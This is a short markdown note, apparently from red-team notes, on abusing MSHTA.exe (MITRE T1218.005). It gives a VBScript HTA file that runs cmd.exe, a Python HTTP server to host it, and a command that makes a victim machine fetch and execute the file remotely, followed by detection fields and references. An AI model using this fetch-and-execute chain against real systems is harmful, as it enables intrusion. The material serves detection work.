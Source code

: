 # [MSHTA.exe](https://attack.mitre.org/techniques/T1218/005/)

## Exploit Syntax:[incomplete] 


1. Create an hta file with the following contents and save it in your malware directory: 

```VBScript
<!DOCTYPE html>
<html lang-"en">
<head>
  <title>This is a bad HTA file</title>

  <HTA:APPLICATION
    APPLICATIONNAME = "Bad HTA File"
  />

  <script language = "VBScript">
    Dim com
    Set com = CreateObject("WScript.Shell")
    com.run "cmd.exe /C mspaint.exe"
    set com = Nothing
  </script>
</head>
```

2. Start a simple http server with Python
```Bash
python3 -m http.server 6789
```
3. On the victim machine, likely with a beacon run the following:
```powershell
sharpps mshta http://<webserverIP>:6789/<nameofHTAfile>
```


## Detection Technique

* Investigate any instances of mshta.exe, if it is common, investigate mshta.exe interacting with the compromised machine itself.
    * process.name: mshta.exe
    * Network Connection: Outbound
    * Event.Action: Process Create
    * Event.Type: start, process start
    * Winlog.task: File Creation


## Resources 
* https://redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/
* https://lolbas-project.github.io/lolbas/Binaries/Mshta/
